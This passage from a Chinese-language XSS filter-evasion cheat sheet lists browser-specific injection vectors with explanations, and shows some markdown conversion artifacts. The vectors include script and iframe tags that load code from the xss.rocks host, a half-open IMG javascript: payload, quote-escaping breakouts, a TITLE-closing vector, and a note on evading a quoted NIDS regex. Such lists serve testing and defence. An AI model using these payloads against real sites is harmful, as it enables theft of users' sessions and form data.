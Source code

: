 ``` {.html}
<SCRIPT SRC=//xss.rocks/.j>
```

### 2.29. 只含左尖括号的 HTML/JavaScript XSS 向量

IE 渲染引擎不像 Firefox，不会向页面中添加额外数据。但它允许在 IMG
标签中直接使用
javascript。这对构造攻击向量是很有用的，因为不需要闭合尖括号。这使得有任何
HTML
标签都可以进行跨站脚本攻击向量注入。甚至可以不使用"\>"闭合标签。注意：这会让
HTML 页面变得混乱，具体程度取决于下面的 HTML 标签。这可以绕过以下 NIDS
正则: /((%3
D)\|(=))\[\^\\n\]\*((%3C)\|\<)\[\^\\n\]+((%3E)\|\>)/因为不需要"\>"闭合。另外在实际对抗
XSS 过滤器的时候，使用一个半开放的\<IFRAME 标签替代\<IMG
标签也是非常有效的。

``` {.html}
<IMG SRC="javascript:alert('XSS')"
```

### 2-30 双尖括号\<（chrome 即可测试）

在正常标签后面使用一个左尖括号\< 代替
右尖括号\>，就可以用远程脚本攻击正常页面，比如直接用远程攻击脚本内容代替正常页面上的表单，从而直接获取用户提交的信息。没有左尖括号时，在
Firefox 中生效，而在 Netscape 中无效。

`<iframe SRC=http://xss.rocks/scriptlet.html <`

### 2-31 javascript 双重转义

当应用将一些用户输入输出到例如：
<SCRIPT>var a=”\$ENV{QUERY_STRING}”;</SCRIPT>
的 JavaScript 中时，你想注入你的 JavaScript
脚本，你可以通过转义转义字符来规避服务器端转义引号。注入后会得到
<SCRIPT>vara=”\\”;alert(‘XSS’);//”;</SCRIPT>

，这时双引号不会被转义并且可以触发跨站脚本攻击向量。XSS
定位器就用了这种方法:

`\";alert('XSS');//`

另一种方法是，直接使用 script 闭合标签，并开始自己的 script 脚本块：

`</script><script>alert('XSS');</script>`

\#\#\# 2-32
</TITLE>

（chrome 即可测试）

这是一个简单的闭合
<TITLE>

标签的 XSS 攻击向量，可以包含恶意的跨站脚本攻击:

`</TITLE><SCRIPT>alert("XSS");</SCRIPT>`
